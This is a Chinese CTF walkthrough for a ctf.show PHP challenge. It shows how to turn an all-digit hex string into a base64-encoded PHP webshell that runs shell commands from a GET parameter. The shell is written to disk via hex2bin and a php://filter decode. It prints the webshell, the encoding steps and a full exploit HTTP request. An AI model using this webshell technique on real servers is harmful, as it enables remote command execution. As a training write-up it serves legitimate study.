 **题目解析**

- $v4 = is_numeric($v2) and is_numeric($v3);检验v2，v3是否是数字或数字字符串，and可以用前面的web100的方法绕过，但是v2必须是数字
- call_user_func()是回调函数，`call_user_func($v1, $s)` 调用 `$v1` 指定的函数，并将 `$s` 作为参数传递给这个函数。
- file_put_contents($v3,$str); 写入文件，可以用于新建webshell文件

**思路**

由于v2必须是数字，所以想到用数字构造webshell，想到函数hex2bin将数字转换成字符串，所以要构造转换成hex后全是数字的webshell，这里思路是用base64编码后的字符转换成hex（这样降低了特殊字符在转换成hex是带有字母有字母is_numeric识别就是false，能降低的原因是base64的编码字符只有[0-9]\[a-z]\[A-Z]+=），构造不同的webshellbase64编码后如果打印true就能过is_numeric了。最后试出来webshell为

```php
<?php `$_GET[ab]`;
// base64 -> PD9waHAgYCRfR0VUW2FiXWA7
// hex -> 504439776148416759435266523056555732466958574137
```

调试代码：

```php
<?php 
	$A = 'PD9waHAgYCRfR0VUW2FiXWA7';
	$B = bin2hex($A);
	echo $B.'<br>';
	var_dump(is_numeric(bin2hex($A)));
	echo (hex2bin($B));
	echo base64_decode(hex2bin($B));
?>
```

payload构造：注意由于substr($v2,2);所以v2在前面构造的hex上还要再前面加两个数字，这里加11，另外由于使用了base64编码所以这里要用filter，将输入的文件流base64解码所以得到`v3=php://filter/write=convert.base64-decode/resource=1.php`

```http
POST /?v2=11504439776148416759435266523056555732466958574137&v3=php://filter/write=convert.base64-decode/resource=1.php HTTP/1.1
Host: bd6baa0c-f110-4e42-9599-a402c04fa980.challenge.ctf.show
Content-Length: 10
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="130", "Microsoft Edge";v="130", "Not?A_Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Origin: https://bd6baa0c-f110-4e42-9599-a402c04fa980.challenge.ctf.show
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36 Edg/130.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ctf.show/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

v1=hex2bin
```
